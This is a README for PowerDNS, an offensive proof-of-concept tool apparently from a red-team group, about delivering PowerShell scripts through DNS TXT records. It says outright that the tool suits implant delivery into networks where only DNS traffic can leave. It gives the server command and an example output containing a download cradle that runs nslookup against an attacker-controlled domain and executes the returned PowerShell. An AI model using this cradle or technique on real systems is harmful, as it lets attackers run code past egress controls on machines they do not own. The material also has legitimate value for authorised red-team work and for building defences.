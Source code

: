 ```
___                        ___  _ _  ___
| . \ ___  _ _ _  ___  _ _ | . \| \ |/ __>
|  _// . \| | | |/ ._>| '_>| | ||   |\__ \
|_|  \___/|__/_/ \___.|_|  |___/|_\_|<___/

@domchell, MDSec ActiveBreach
```
# Description
PowerDNS is a simple proof of concept to demonstrate the execution of PowerShell script using DNS only.

PowerDNS works by splitting the PowerShell script in to chunks and serving it to the user via DNS TXT records.

Use cases for PowerDNS include delivery of an implant using PowerShell DNS delivery, or where you may need to introduce a PowerShell script to a tightly controlled environment where egress is limited only to DNS.

# Usage:
In order to use PowerDNS, the powerdns.py server should run on the host that is authoritative for a given domain.

PowerDNS takes the file to serve, along with the domain that the server is authoritative for as arguments:
```
# python powerdns.py -h
___                        ___  _ _  ___
| . \ ___  _ _ _  ___  _ _ | . \| \ |/ __>
|  _// . \| | | |/ ._>| '_>| | ||   |\__ \
|_|  \___/|__/_/ \___.|_|  |___/|_\_|<___/

@domchell, MDSec ActiveBreach

usage: powerdns.py [-h] [--file <file>] [--domain <domain>]

optional arguments:
  -h, --help         show this help message and exit
  --file <file>      PowerShell file to serve
  --domain <domain>  Domain with auth NS record
```
# Example:
The following example will serve the psh_payload.ps1 file and can be executed on the target host using the supplied download cradle:
```
# python powerdns.py --file psh_payload.ps1 --domain foobar.com
___                        ___  _ _  ___
| . \ ___  _ _ _  ___  _ _ | . \| \ |/ __>
|  _// . \| | | |/ ._>| '_>| | ||   |\__ \
|_|  \___/|__/_/ \___.|_|  |___/|_\_|<___/

@domchell, MDSec ActiveBreach

[*] PowerDNS: Splitting psh_payload.ps1 in to 18 chunk(s)
[*] PowerDNS: Use the following download cradle:
[*] PowerDNS: powershell "powershell (nslookup -q=txt -timeout=5 0.foobar.com)[-1]"

```
